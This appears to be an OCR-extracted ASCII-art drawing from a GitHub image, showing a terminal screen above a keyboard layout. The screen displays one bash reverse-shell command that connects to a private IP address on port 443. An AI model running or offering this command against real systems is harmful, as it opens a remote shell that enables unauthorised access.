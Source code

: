 
    *************************************************************************
    * $ bash -i >& /dev/tcp/10.10.9.1/443 0>&1                              *
    *                                                                       *
    *                                                                       *
    *                                                                       *
    *                                                                       *
    *                                                                       *
    *                                                                       *   
    *                                                                       *
    *                                                                       *
    *************************************************************************
      ESC   F1 F2 F3 F4 F5 F6 F7 F8 F9 F10 F11 F12 PRT SCR  BRK
      ~       1 2 3 4 5 6 7 8 9 0 - =    BCKSP     INS HOME PGUP       -------
      TAB      q w e r t y u i o p { }    \|/      DEL END  PGDN       |  |  |
      CAPS     a s d f g h j k l : "     ENTER                         |     |
      SHIFT     z x c v b n m , . /      SHIFT        |                |_____|
      CTRL WIN  ALT   S_P_A_C_E ALT   FN WIN CTRL  <- _ ->

